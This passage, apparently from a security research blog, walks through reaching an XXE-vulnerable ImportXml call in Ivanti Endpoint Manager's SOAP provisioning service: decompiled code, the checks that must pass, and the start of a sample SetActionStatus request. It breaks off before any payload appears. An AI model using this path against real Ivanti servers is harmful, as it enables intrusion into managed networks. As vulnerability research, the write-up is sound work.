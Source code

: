 This is rather a very large function to analyze but luckily, I managed to bring it down to certain simplicity. But before that, let's check it's POST request and the actual data we have to sent to the application as part of our HTTP request. Given that we know the service is running on port 8443 and we have IIS manager insalled on our Windows Server, we can navigate within the IIS Manager and find the `ProvisioningWebService` path and then attempt to reach it from browser.

If you have ever come across any of the writeups related to Ivanti Endpoint Manager, you would know majority of them is done through SOAP API and this is not exception. One good thing about SOAP APIs is that it will list the methods supported by the API and give us sample request and an example response to work with.

Now, that we have a sample `SetActionStatus` request to work with, let's see how exactly we can reach our targeted function.

### Overcoming Obstacles: Challenges in Exploiting XXE

Now, let's dive deeper into analyzing the logic of WriteActionStatus to reach the part where the ImportXml function is called. Instead of going line by line through the code, we’ll focus on the main checkpoints that lead us to ImportXml.

```csharp
		if (flag6 && actionXml != null && actionXml.Length > 0)
		{
			PHistoryEntry phistoryEntry3 = new PHistoryEntry();
			flag7 = phistoryEntry3.ImportXml(actionXml);
			if (!flag7)
```

First, the `historyEntryIDN` must be valid. This kicks off a series of database lookups involving history tasks and entries. These values are retrieved based on the initial `historyEntryIDN`. If all validations pass and flag2 remains true, the next significant check involves `actionXml`. The logic behind `flag6` is simple—it checks if `actionXml` is empty. If it’s not, this sets up the possibility of calling ImportXml.

However, before reaching that point, other conditions must be satisfied, such as ensuring the history entry’s state isn’t in a "stale" mode (like rebooting or waiting for software delivery). Provided these conditions hold true and `flag6` is set, we finally encounter the block that executes `ImportXml`. At this point, `flag6` confirms that `actionXml` contains valid data, allowing us to pass the final check and proceed with the import.

> Note: I had to make my own entries within the database to get through the check of `historyEntryIDN`. I had the ID as `5` into the database, so we will be using that in our exploit but rest assured there is a way to get through it when attacking a real target.

### Exploiting XXE: Turning Theory Into Action

Now, it is time we get our hands dirty. Let's paste the sample request:

```xml
<?xml version="1.0" encoding="utf-8"?>
  <soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
    <soap:Body>
      <SetActionStatus xmlns="http://tempuri.org/">
        <historyTaskIDN>100</historyTaskIDN>
        <historyEntryIDN>5</historyEntryIDN>
        <nextHistoryEntryIDN>0</nextHistoryEntryIDN>
        <actionState>NEED_REBOOT</actionState>
        <internalRetval>1</internalRetval>
        <externalRetval>1</externalRetval>
        <strCapturedText>string</strCapturedText>
        <Variables>
          <UserVariable>
            <Name>string</Name>
            <Value>string</Value>
            <VariableOperation>add</VariableOperation>
          </UserVariable>
          <UserVariable>
```